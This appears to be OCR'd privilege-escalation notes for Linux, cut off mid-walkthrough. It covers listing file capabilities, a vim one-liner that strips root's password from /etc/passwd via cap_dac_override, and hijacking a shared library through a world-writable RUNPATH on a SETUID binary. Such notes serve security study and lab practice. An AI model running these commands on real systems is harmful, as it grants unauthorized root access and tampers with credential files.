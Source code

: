 ```
## Enumerating Capabilities

```$ find /usr/bin /usr/sbin /usr/local/bin /usr/local/sbin -type f -exec getcap {} \; ```

## Exploiting cap_dac_ovveride 

Can be used to access system files like /etc/passwd or /etc/shadow

```$ echo -e ':%s/^root:[^:]*:/root::/\nwq!' | /usr/bin/vim.basic -es /etc/passwd```


# Shared Object Hijacking (runpath)



Programs and binaries under development usually have custom libraries associated with them. Consider the following SETUID binary.
```
$ ls -la payroll

  -rwsr-xr-x 1 root root 16728 Sep  1 22:05 payroll
```

We can use ldd to print the shared object required by a binary or shared object.

 ```$ ldd payroll```

We see a non-standard library named libshared.so listed as a dependency for the binary. As stated earlier, it is possible to load shared libraries from custom locations. One such setting is the RUNPATH configuration. Libraries in this folder are given preference over other folders. This can be inspected using the readelf utility.

```
$ readelf -d payroll  | grep PATH


 0x000000000000001d (RUNPATH)            Library runpath: [/development]
```

The configuration allows the loading of libraries from the /development folder, which is writable by all users. 

```
$ ls -la /development/

  total 8
  drwxrwxrwx  2 root root 4096 Sep  1 22:06 ./
  drwxr-xr-x 23 root root 4096 Sep  1 21:26 ../
```
Before compiling a library, we need to find the function name called by the binary.

$ cp /lib/x86_64-linux-gnu/libc.so.6 /development/libshared.so

```
$ ldd payroll
